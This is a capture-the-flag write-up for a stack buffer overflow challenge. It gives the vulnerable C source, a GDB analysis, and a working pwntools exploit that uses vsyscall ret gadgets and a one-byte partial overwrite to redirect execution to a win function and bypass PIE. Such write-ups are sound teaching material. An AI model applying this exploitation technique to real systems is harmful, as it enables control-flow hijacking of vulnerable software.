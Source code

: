 ![Screenshot 2025-02-26 113030](https://github.com/user-attachments/assets/fd4721d4-694d-45c0-9e46-d799995012e0)
\
I didn't solve this problem on time but i think this problem really testing our fundamental understanding in pwning (IMO). We will see why.

# NOTE :
Author said there's no need of bruteforcing in this challenge and also the challenge is not dependent in libc.
And also if **vsyscall** is not enabled in your machine please refer to [this](https://helpcenter.onlyoffice.com/installation/mail-enabling-vsyscall.aspx) article.

# Technique = Ret2win (with **vsyscall** gadget)

## 1. Checking given file.
Given a zip file that contains 2 files which are _chall_ and _src.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/trx/pwn/virtual_instanity/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As we can see this challenge looks pretty simple at first glance, it looks like a simple ret2win challenge. But the problem now is, how do we return to the win function? there's no leak and PIE is enabled. The short answer is we can make use of the gadget available at _vsyscall_, so the gadget that we're gonna need is just a simple _ret_ gadget and we can find that by jumping to _vsyscall_'s address which located at fixed address at _0xffffffffff600000_, the instructions are somewhat look like this:
```asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret
```
Now we have a _ret_ gadget, so the next technique/step is partially overwriting the return address in stack to **win()** function. We will see clearly what i mean in the next step.


## 2. Analyzing Binary in GDB.
First let's set breakpoints at these addresses to check the stack before and after we send our junk input:\
![image](https://github.com/user-attachments/assets/e6038c13-52ec-4099-9faf-d6d3e93262fa)

Stack layout **before** junk input:\
![image](https://github.com/user-attachments/assets/ebfefe95-2084-47db-bff6-78fdc8198be3)

Stack layout **after** junk input:\
![image](https://github.com/user-attachments/assets/e89883f6-0787-40b8-8d03-60628b91ed55)
![image](https://github.com/user-attachments/assets/76042d39-89bf-4731-b628-65f20fb957e7)

We can see our junk input (**0x41**s) are there on the stack.

Now let's put our attention at these addresses: \
**0x00007ffff7dd4d68** <-- __libc_start_call_main+120 \
**0x00005555555551da** <-- main\
![image](https://github.com/user-attachments/assets/de193c74-7b31-4159-9e50-2a9268215589)

So the buffer is 0x20 (32 bytes) + 8 bytes (RBP) and the 41st byte is the rip, here we can just put the address of _vsyscall_ twice until it reaches the address **0x00005555555551da** which located on the stack as well. \
![image](https://github.com/user-attachments/assets/bf8c0d9e-7861-4ee0-9dfd-982df416a60b)

After that we just need to partially overwrite 1 more byte to the **main** function that located there, we will overwrite it with the byte '**\xa9**', why? let's take a look at the image below: \
![image](https://github.com/user-attachments/assets/40d8d997-d943-4a5c-ba56-21c3ef40a9f0) \
Since the address of **main** and **win** is only different at their last 1 byte, we can just overflow that '**\xa9**' so that the address of **main** gets overwrite with **win**.

Let's first setup the fake flag in our environment variable for testing the exploit. We'll call the env as **FLAG** like in the binary itself.
```bash
export FLAG="FLAG{fake_flag_DEADBEEF}"
```

## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall'
HOST = 'virtual.ctf.theromanxpl0.it'
PORT = 7011

elf = ELF(TARGET)
#libc = ELF('./libc.so.6')
#ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

"""
vmmap
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000:  mov    rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
"""

p.recvline()

payload = b'A' * 0x28
payload += p64(0xffffffffff600000) * 2
payload += b'\xa9'

p.send(payload)

p.interactive()
p.close()

# NOTE:
# ret2win (with vsyscall gadget)
```

## 4. Result
Local:\
![image](https://github.com/user-attachments/assets/05cec976-dfdb-4151-b00d-d370df15be06)

Remote:\
![image](https://github.com/user-attachments/assets/f42c924e-4d21-4759-a462-9da782aef849)

## Keyword
ret2win \
vsyscall \
partial address overwrite
